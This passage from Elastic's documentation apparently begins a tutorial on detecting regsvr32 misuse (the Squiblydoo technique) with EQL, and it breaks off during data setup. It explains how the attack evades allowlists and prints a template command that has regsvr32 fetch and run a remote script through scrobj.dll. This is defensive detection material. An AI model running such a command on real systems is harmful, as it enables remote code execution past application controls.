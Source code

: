```yaml
---
mapped_pages:
  - https://www.elastic.co/guide/en/elasticsearch/reference/current/eql-ex-threat-detection.html
---
```


# Example: Detect threats with EQL [eql-ex-threat-detection]

This example tutorial shows how you can use EQL to detect security threats and other suspicious behavior. In the scenario, you’re tasked with detecting [regsvr32 misuse](https://attack.mitre.org/techniques/T1218/010/) in Windows event logs.

`regsvr32.exe` is a built-in command-line utility used to register `.dll` libraries in Windows. As a native tool, `regsvr32.exe` has a trusted status, letting it bypass most allowlist software and script blockers. Attackers with access to a user’s command line can use `regsvr32.exe` to run malicious scripts via `.dll` libraries, even on machines that otherwise disallow such scripts.

One common variant of regsvr32 misuse is a [Squiblydoo attack](https://attack.mitre.org/techniques/T1218/010/). In a Squiblydoo attack, a `regsvr32.exe` command uses the `scrobj.dll` library to register and run a remote script. These commands often look like this:

```sh
"regsvr32.exe  /s /u /i:<script-url> scrobj.dll"
```


## Setup [eql-ex-threat-detection-setup]

This tutorial uses a test dataset from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) that includes events imitating a Squiblydoo attack. The data has been mapped to [Elastic Common Schema (ECS)][Elastic Common Schema (ECS)](ecs://reference/index.md)) fields.

To get started:

1. Create an [index template](docs-content://manage-data/data-store/templates.md) with [data stream enabled](docs-content://manage-data/data-store/data-streams/set-up-data-stream.md#create-index-template):

    ```console
    PUT /_index_template/my-data-stream-template
    {
      "index_patterns": [ "my-data-stream*" ],
      "data_stream": { },
      "priority": 500
    }
    ```

2. Download [`normalized-T1117-AtomicRed-regsvr32.json`](https://raw.githubusercontent.com/elastic/elasticsearch/master/docs/src/yamlRestTest/resources/normalized-T1117-AtomicRed-regsvr32.json).
3. Use the [bulk API](https://www.elastic.co/docs/api/doc/elasticsearch/operation/operation-bulk) to index the data to a matching stream:
